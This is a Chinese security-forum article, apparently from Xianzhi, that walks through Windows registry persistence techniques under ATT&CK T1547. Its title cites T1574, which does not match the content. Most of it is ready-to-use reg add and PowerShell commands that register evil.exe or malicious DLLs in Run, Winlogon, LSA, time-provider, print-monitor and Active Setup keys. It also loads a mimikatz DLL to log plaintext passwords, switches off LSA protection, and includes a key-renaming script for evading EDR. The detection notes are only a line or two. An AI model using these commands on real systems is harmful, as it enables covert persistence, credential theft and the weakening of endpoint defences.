




# ATT&CK 中的攻与防——T1574 - 先知社区

ATT&CK 中的攻与防——T1574

- - -

# 前言

此篇文章为 ATTCK 矩阵中的攻与防的第三篇，T1574 是 windows 里面常见的规避 EDR 常用的渗透横向技巧，大部分技巧在互联网上都有师傅们分享，笔者只是将其中的内容总结起来，以 ATT&CK 矩阵来探究其中的攻防之道，注册表在 windows 中一直扮演着极其重要的角色，如若文章有技术问题，欢迎各位师傅在评论区交流

# T1547.001 (Persistence,Registry Run Keys / Startup Folder)

通过对注册表的修改，达到一个开机自启动的效果，形成权限维持或者权限提升亦或者 EDR 的规避  
最常见的就是我们的**run&&runonce**这 2 个注册表键值

```plain
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
```

将/d 的值换成恶意文件的位置，就可以达成开机自启动，runonec 开机一次就会移除服务  
当然，如果有些键值确实存在，我们想要新增，要想跳过此次确认，可以/f 强制添加  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124110912-f2cb0f54-ba65-1.png)

对于 reg 操作相关注册表，我们可以通过 query，查看相关键值的具体值，其余相关的注册表位置

```plain
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runservicesonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runservices" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\runservicesonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\runservices" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\congya\axingg\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\wow6432node\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\wow6432node\microsoft\windows\currentversion\runOnce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
```

对于防守方而言，最常见的方法就是对 reg add 以及上诉所提及的注册表键值进行检测  
以及我们的 CompatTelRunner.exe  
当然，除了通过 reg add 添加注册表，我们还可以通过 powershell 添加注册表  
powershell.exe New-ItemProperty -Path "HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\run" -Name "evil" -PropertyType String -Value "C:\\Users\\axingg\\desktop\\evil.exe"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124111200-5719994e-ba66-1.png)  
注册表相关属性值如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124111351-993f703c-ba66-1.png)  
powershell.exe New-ItemProperty "HKCU:\\software\\microsoft\\windows\\currentversion\\run" calc -value "C:\\Users\\axingg\\desktop\\evil.exe" -propertyType string //减少相关参数  
powershell.exe Set-ItemProperty -Path "HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\run" -Name "test" -Value "C:\\Users\\axingg\\desktop\\evil.exe" -Force //强制执行

除了通过 powershell 添加注册表，我们也可以通过 reg export 导出注册表  
reg export "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" c:\\users\\axingg\\desktop\\abc.reg  
当然，变形的方法是灵活变通，我们也可以对 export 做一些手脚  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124111731-1c25e9cc-ba67-1.png)  
在修改我们的 abc.reg，最后在导入  
reg import "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" c:\\users\\axingg\\desktop\\abc.reg  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124111829-3f088b48-ba67-1.png)  
当然，我们还可以修改注册表的名字，当然，这也是相关思路之一  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124112002-768b0730-ba67-1.png)  
附上代码

```plain
import ctypes
from ctypes import *
from ctypes.wintypes import *
import sys

help = """python2 {}.py rename_key "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit" "123123"\n""".format(sys.argv[0])
help += """python2 {}.py rename_key "hklm\SOFTWARE\Microsoft\Windows NT\CurrentVersion\123123" "SilentProcessExit"\n""".format(sys.argv[0])

list1 = {"hkcr":-2147483648,"hkcu":-2147483647,"hklm":-2147483646,"hkus":-2147483645,"hkcc":-2147483643}

def rename_key(reg_handle, key,key2):
    key_handle = HKEY()
    key_result = DWORD()
    a = ctypes.windll.Advapi32.RegCreateKeyExA(reg_handle, key, 0, None, 0x00000000, 0xF003F, 0, byref(key_handle),byref(key_result))
    print(a)
    c = ctypes.windll.Advapi32.RegRenameKey(key_handle, 0,LPCWSTR(key2))
    print(c)

if __name__ == "__main__":
    if len(sys.argv) != 1:
        if sys.argv[1] == "rename_key":
            str = sys.argv[2].split("\\",1)
            rename_key(list1[str[0]],str[1],sys.argv[3])
        else:
            print(help)
    else:
        print(help)
```

# T1547.002&&005 (modify authentication packages)

reg add "hklm\\system\\currentcontrolset\\control\\lsa\\" /v "authentication packages" /d "C:\\Users\\congya\\desktop\\mimi.dll" /t REG\_MULTI\_SZ  
reg add "hklm\\system\\currentcontrolset\\control\\lsa\\" /v "Security Packages" /d "C:\\Users\\congya\\desktop\\mimi.dll" /t REG\_MULTI\_SZ  
这个 mimi.dll 就是 mimikatz 里面的，将此 dll 修改到注册表中，重启后会看见相关密码明文（C:\\Windows\\system32\\kiwissp.log）  
检测方式，对相关注册表进行检测

# T1547.003 (modify time providers)

reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\NtpClient" /v DllName /t REG\_EXPAND\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\NtpServer" /v DllName /t REG\_EXPAND\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124112512-2f66f160-ba68-1.png)  
通过 sc stop w32time 上线 MSF  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124112556-4963c656-ba68-1.png)  
当然，也可以通过 VS 编译相关 dll 文件，通过 rundll32 注册注册表，rundll32 gametime.dll,Register  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124112714-779dc3dc-ba68-1.png)  
rundll32 gametime.dll,Deregister //注销相关注册表内容  
相关 github 项目，[https://github.com/scottlundgren/w32time](https://github.com/scottlundgren/w32time)  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\W32Time\\TimeProviders\\gametime" /v DllName /t REG\_SZ /d "C:\\Users\\axingg\\Downloads\\w32time.dll"  
一样的还是 sc stop w32time  
检测方式，对 rundll32 进行检测

# T1547.004 (modify Winlogon Helper DLL)

reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v "userinit" /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe,"  
HKLM 以及 HKCU 的 Userinit 值以及 shell 的值不建议修改，会导致系统启动异常  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124112910-bcdfda7a-ba68-1.png)  
reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v "shell" /t REG\_SZ /d "C:\\Windows\\system32\\cmd.exe,"  
reg add "HKLM\\SOFTWARE\\wow6432node\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon" /v "userinit" /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe,"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113202-2378b248-ba69-1.png)  
reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify" (新增 notify)  
reg add "HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify" /v "login" /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.dll"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113334-5a9d5ef4-ba69-1.png)

# T1547.008 (LSASS Driver)

reg add hklm\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters /v AdminSDProtectFrequency /t REG\_DWORD /d 600  
修改 SDProp 默认启动时间，范围为 60-7200s，SDProp 是一个进程，默认启动时间是 3600s  
reg add "HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Lsa" /v "RunAsPPL" /t REG\_DWORD /d 0  
将 LSA 保护关闭，1 为开启  
powershell.exe New-ItemProperty -Path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\NTDS -Name LsaDbExtPt -Value "C:\\Users\\axingg\\Desktop\\lsass\_lib.dll"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113443-83797704-ba69-1.png)  
重新启动即可，当然需要为启动 PPL

# T1547.009 (Shortcut Modification)

C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp\\  
C:\\Users\\axingg\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\  
检测这 2 个目录相关的 lnk 文件  
题外话，当我们无法定位到对面的桌面在哪儿，可以查看这里的注册表  
reg query "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders"  
reg query "HKEY\_CURRENT\_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113543-a717521c-ba69-1.png)

# T1547.010 (Port Monitors)

reg add "hklm\\system\\currentcontrolset\\control\\print\\monitors\\T1547" /v "Driver" /d "C:\\Users\\axingg\\Downloads\\msfevil.dll" /t REG\_SZ /f  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113636-c6f1a178-ba69-1.png)

# T1547.012 (print processors by reg)

reg add "HKLM\\SYSTEM\\ControlSet001\\Control\\Print\\Environments\\Windows x64\\Print Processors\\winprint /v "Driver" /d "C:\\Users\\axingg\\Downloads\\DEment.dll" /t REG\_SZ  
reg add "HKLM\\SYSTEM\\ControlSet001\\Control\\Print\\Environments\\Windows x64\\Print Processors\\PrintFiiterPipelineSvc /v "Driver" /d "C:\\Users\\axingg\\Downloads\\DEment.dll" /t REG\_SZ  
reg add "HKLM\\SYSTEM\\ControlSet001\\Control\\Print\\Environments\\Windows x64\\Print Processors\\lltdsvc1 /v "Driver" /d "C:\\Users\\axingg\\Downloads\\EntAppsvc" /t REG\_SZ  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113723-e288f5da-ba69-1.png)

# T1547.014 (Active Setup)

reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\evil"  
reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\evil" /v StubPath /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe"  
reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components\\evil" /v "@" /t REG\_SZ /d "test for congya"  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113855-197b025e-ba6a-1.png)  
RunOnce.exe /AlternateShellStartup //即可启动成功  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113941-34f92452-ba6a-1.png)  
reg add "HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Active Setup\\Installed Components{C9E9A340-D1F1-11D0-821E-444553540600}" /v StubPath /t REG\_SZ /d "C:\\Users\\axingg\\desktop\\evil.exe"  
RunOnce.exe /AlternateShellStartup  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124114032-538cc8a6-ba6a-1.png)

# 后记

前两篇文章发表在跳跳糖，文章链接：  
[https://tttang.com/archive/1781/](https://tttang.com/archive/1781/)  
[https://tttang.com/archive/1718/](https://tttang.com/archive/1718/)
